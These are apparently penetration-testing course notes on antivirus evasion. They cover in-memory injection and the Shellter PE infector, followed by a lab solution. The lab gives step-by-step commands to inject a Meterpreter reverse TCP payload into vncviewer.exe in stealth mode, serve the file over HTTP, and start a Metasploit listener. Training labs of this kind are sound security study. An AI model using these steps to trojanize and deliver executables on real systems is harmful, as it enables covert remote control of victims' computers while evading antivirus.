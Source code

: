 2. **In-Memory AV Evasion Techniques**:
	- *Memory Manipulation*. Injects payload into a process by leveraging various Windows APIs and does not write files to disk. Payload is then executed in memory in a separate thread.

#### Shellter

[**Shellter**](https://www.shellterproject.com/homepage/introducing-shellter/) is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.
It can be used in order to inject shellcode into native Windows applications (currently 32-bit applications only).
The shellcode can be something yours or something generated through a framework, such as Metasploit.
Shellter takes advantage of the original structure of the PE file and doesn't apply any modification such as changing memory access permissions in sections (unless the user wants), adding an extra section with RWE access, and whatever would look dodgy under an AV scan.

Shellter uses a unique dynamic approach which is based on the execution flow of the target application, and this is just the tip of the iceberg.
Shellter is not just an EPO infector that tries to find a location to insert an instruction to redirect execution to the payload. Unlike any other infector, Shellter's advanced infection engine never transfers the execution flow to a code cave or to an added section in the in- fected PE file.

### Antivirus Evasion (with Shellter) - Lab

#### Lab Solution

To install and set up Shellter:
`sudo apt install shellter -y`,
`sudo dpkg --add-architecture i386`, `sudo apt install wine32 -y`,
`cp /usr/share/windows-binaries/vncviewer.exe ~/Desktop/vncviewer.exe`.

To inject the code:
`cd /usr/share/windows-resources/shellter`, `sudo wine shellter.exe`, `A` to choose the "Auto" operation mode, `~/Desktop/vncviewer.exe` to choose the PE target, `Y` to enable the stealth mode (execute the injected PE in background), `L` to choose a listed payload, `1` to choose the Meterpreter reverse TCP, `192.168.1.2`, `1234` to complete the injection stage.
Now we have the `~/Desktop/vncviewer.exe` PE with the injected code (Meterpreter reverse TCP shellcode).

`cd ~/Desktop`, `python3 -m http.server 80`: to transfer the executable to the target.

`msfconsole -q`, `use multi handler`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `set LHOST 192.168.1.2`, `set LPORT 1234`, `run`.

---
---
